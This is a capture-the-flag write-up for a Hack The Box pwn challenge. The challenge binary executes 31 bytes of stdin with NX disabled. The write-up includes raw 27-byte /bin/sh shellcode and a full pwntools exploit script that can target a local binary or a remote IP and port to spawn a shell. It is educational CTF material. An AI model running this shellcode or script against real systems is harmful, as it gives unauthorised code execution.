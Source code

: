 ```yaml
---
title: "El Teteo 🔥 - Shellcode Injection Exploit Writeup"
tags: [HTB, binary exploitation, shellcode, stack exec, pwn]
---
```


# El Teteo 🔥

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![Challenge](https://img.shields.io/badge/Challenge-red)

El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

Let’s begin by checking the binary’s security protections using `checksec`.

![Checksec output](https://github.com/user-attachments/assets/ceec4776-f279-4c0b-9667-e0cc5f46a2e8)

**Findings:**
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ❌ NX disabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

When we launch the binary, this is what it displays:

![Program Launch Output](https://github.com/user-attachments/assets/1a6f190f-eab5-4789-a89a-df1e661e643e)

A spooky looking ASCII pumpkin along with the text:

```
[!] I will do whatever you want, nice or naughty..
```

## Reverse Engineering 🔍

By decompiling the binary using **Ghidra**, we land in the `main()` function:

![Ghidra Decompiled Function](https://github.com/user-attachments/assets/c5c6f27e-8b4f-4be6-823b-84d24b0c2e96)

Two particularly interesting lines:

```c
read(0,&local_68,0x1f);
(*(code *)&local_68)();
```

This reads **31 bytes** from stdin and directly **executes** the buffer as code. 

Since NX is disabled, we can directly inject shellcode into the stack and it will be executed.

## Exploitation Strategy 💣

We need a shellcode that fits within **31 bytes**.

We can use this 27-byte shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-806.html) which spawns `/bin/sh`:

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit remote or local")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode (-r IP PORT or -l BINARY)")
        return
    
    shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    print(f"Shellcode length: {len(shellcode)} bytes")
    
    p.sendlineafter(b'>', shellcode)
    p.interactive()

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

We run the exploit:

```
$ python3 exploit.py -l ./el_teteo
```

🎉 Result:

![Flag Output](https://github.com/user-attachments/assets/64507c3f-307f-4f7d-8d29-ff92d80662f4)

Flag captured:
```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a classic example of a **stack-based shellcode injection** made possible by:
- Disabled NX
- Direct execution of user input (`(*(code *)buffer)()`)

By keeping the shellcode under 31 bytes, we successfully popped a shell and retrieved the flag.

🔙 [Back to Challenges Writeups](../../)
